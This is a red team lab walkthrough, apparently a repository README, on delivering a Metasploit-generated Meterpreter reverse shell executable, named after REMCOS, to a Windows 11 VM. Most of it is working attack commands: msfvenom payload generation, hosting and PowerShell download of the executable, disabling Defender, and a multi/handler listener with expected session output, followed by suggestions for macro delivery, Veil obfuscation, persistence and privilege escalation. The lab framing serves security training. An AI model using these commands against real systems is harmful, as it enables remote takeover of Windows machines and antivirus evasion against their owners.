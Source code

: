 # 🧪 Red Team Lab: REMCOS Reverse Shell via Executable Delivery

This lab demonstrates a basic but effective red team exercise: delivering a raw Metasploit-generated .exe payload to a Windows 11 VM and catching a reverse Meterpreter shell using Kali Linux. This is a foundational training scenario focused on payload generation, listener setup, and reverse shell execution in a controlled virtual lab.

🖥️ Lab Setup

Host OS

Windows 11 (Pro)

Attacker Machine

Kali Linux (VirtualBox, Host-Only Network)

Network Type

Host-Only Adapter on both VMs

⚙️ Step-by-Step Instructions

## 1. Generate Payload on Kali

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe -o remcos_clone.exe

## 2. Host the Payload via Python Server

python3 -m http.server 8000

## 3. On Windows VM: Download the Payload

Invoke-WebRequest -Uri http://192.168.56.101:8000/remcos_clone.exe -OutFile remcos_clone.exe

## 4. Disable Defender + Run Payload

Turn off Microsoft Defender Real-Time Protection

Right-click remcos_clone.exe > Run as Administrator

## 5. Start Listener on Kali

msfconsole

Then in the console:

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run

✅ You should see:

[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Meterpreter session 1 opened

## 📸 Screenshot Checklist

Kali IP Config – ip a showing 192.168.56.101

Payload Generation Output – full msfvenom result

Python HTTP Server Running – terminal showing Serving HTTP on 0.0.0.0 port 8000

Windows IPConfig – ipconfig output

PowerShell File Download – full PowerShell window

Defender Disabled – screenshot of Defender UI toggled off

File Explorer showing .exe – remcos_clone.exe on Desktop

Metasploit Listener Output – session opened message

✅ Next Phase Ideas

Re-delivery using HTA or macro Word doc

Obfuscation with Veil or msbuild

Persistence + privilege escalation


